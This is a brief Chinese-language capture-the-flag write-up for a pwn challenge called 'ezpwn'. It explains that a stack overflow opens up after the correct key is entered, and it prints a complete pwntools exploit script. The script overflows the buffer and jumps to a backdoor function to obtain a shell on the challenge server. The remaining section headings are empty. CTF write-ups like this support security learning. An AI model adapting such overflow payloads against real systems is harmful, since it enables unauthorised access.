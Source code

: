 CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *

from wstube import websocket

  

context(arch='amd64', os='linux', log_level='debug')

local = True

if local:

p = process('./ezpwn')

else:

p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

  

ret = 0x40101a

backdoors = 0x401539

key = b'astrobot'

p.recvuntil(b'\x21\x0a')

p.send(key)

p.recvuntil(b'something:')

payload = b'A' * 0x58 + p64(ret) + p64(backdoors)

p.sendline(payload)

p.interactive()
```
## fmt_str

## shellcode

## walt改造的编译器
